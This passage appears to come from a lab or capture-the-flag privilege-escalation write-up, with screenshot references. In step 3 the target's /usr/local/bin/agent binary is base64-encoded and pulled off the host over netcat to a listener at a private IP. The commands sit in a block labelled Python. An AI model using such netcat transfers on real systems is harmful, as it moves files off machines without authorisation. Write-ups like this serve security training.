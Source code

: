 ![writeup.privesc.steps.2.1](./screenshot17.png)  

3\. We transfer the binary locally and start exploring it:  
``` {.python .numberLines}
cat /usr/local/bin/agent | base64 >agentfile
nc -nlvp 9090 >agentfile
nc 192.168.92.178 9090 <agentfile

```

![writeup.privesc.steps.3.1](./screenshot18.png)  
